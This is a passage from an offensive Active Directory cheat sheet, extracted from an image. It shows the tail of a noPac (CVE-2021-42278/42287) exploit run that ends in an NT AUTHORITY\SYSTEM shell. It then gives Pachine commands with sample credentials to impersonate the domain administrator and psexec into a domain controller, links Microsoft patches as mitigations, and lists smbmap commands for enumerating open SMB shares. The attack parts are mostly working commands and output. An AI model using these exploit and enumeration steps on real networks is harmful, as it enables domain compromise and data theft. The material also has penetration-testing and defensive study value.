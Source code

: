     [*] Restored SAMTHEADMIN-11$ sAMAccountName to original value                     
    [*] Using TGT from cache                                                          
    [*] Impersonating gaylene.dreddy                                                  
    [*]     Requesting S4U2self                                                       
    [*] Saving ticket in gaylene.dreddy.ccache                                        
    [!] Launching semi-interactive shell - Careful what you execute                   
    C:\Windows\system32>whoami                                                        
    nt authority\system 
    ```
    
- [ly4k/Pachine](https://github.com/ly4k/Pachine)
    
    ```powershell
    usage: pachine.py [-h] [-scan] [-spn SPN] [-impersonate IMPERSONATE] [-domain-netbios NETBIOSNAME] [-computer-name NEW-COMPUTER-NAME$] [-computer-pass password] [-debug] [-method {SAMR,LDAPS}] [-port {139,445,636}] [-baseDN DC=test,DC=local]
                  [-computer-group CN=Computers,DC=test,DC=local] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] -dc-host hostname [-dc-ip ip]
                  [domain/]username[:password]
    $ python3 pachine.py -dc-host dc.domain.local -scan 'domain.local/john:Passw0rd!'
    $ python3 pachine.py -dc-host dc.domain.local -spn cifs/dc.domain.local -impersonate administrator 'domain.local/john:Passw0rd!'
    $ export KRB5CCNAME=$PWD/administrator@domain.local.ccache
    $ impacket-psexec -k -no-pass 'domain.local/administrator@dc.domain.local'
    ```
    

**Mitigations**:

- [KB5007247 - Windows Server 2012 R2](https://support.microsoft.com/en-us/topic/november-9-2021-kb5007247-monthly-rollup-2c3b6017-82f4-4102-b1e2-36f366bf3520)
- [KB5008601 - Windows Server 2016](https://support.microsoft.com/en-us/topic/november-14-2021-kb5008601-os-build-14393-4771-out-of-band-c8cd33ce-3d40-4853-bee4-a7cc943582b9)
- [KB5008602 - Windows Server 2019](https://support.microsoft.com/en-us/topic/november-14-2021-kb5008602-os-build-17763-2305-out-of-band-8583a8a3-ebed-4829-b285-356fb5aaacd7)
- [KB5007205 - Windows Server 2022](https://support.microsoft.com/en-us/topic/november-9-2021-kb5007205-os-build-20348-350-af102e6f-cc7c-4cd4-8dc2-8b08d73d2b31)
- [KB5008102](https://support.microsoft.com/en-us/topic/kb5008102-active-directory-security-accounts-manager-hardening-changes-cve-2021-42278-5975b463-4c95-45e1-831a-d120004e258e)
- [KB5008380](https://support.microsoft.com/en-us/topic/kb5008380-authentication-updates-cve-2021-42287-9dafac11-e0d0-4cb8-959a-143bd0201041)

## Open Shares

> Some shares can be accessible without authentication, explore them to find some juicy files

- [ShawnDEvans/smbmap - a handy SMB enumeration tool](https://github.com/ShawnDEvans/smbmap)
    
    ```powershell
    smbmap -H 10.10.10.10                # null session
    smbmap -H 10.10.10.10 -R             # recursive listing
    smbmap -H 10.10.10.10 -u invaliduser # guest smb session
    smbmap -H 10.10.10.10 -d "DOMAIN.LOCAL" -u "USERNAME" -p "Password123*"
    ```
    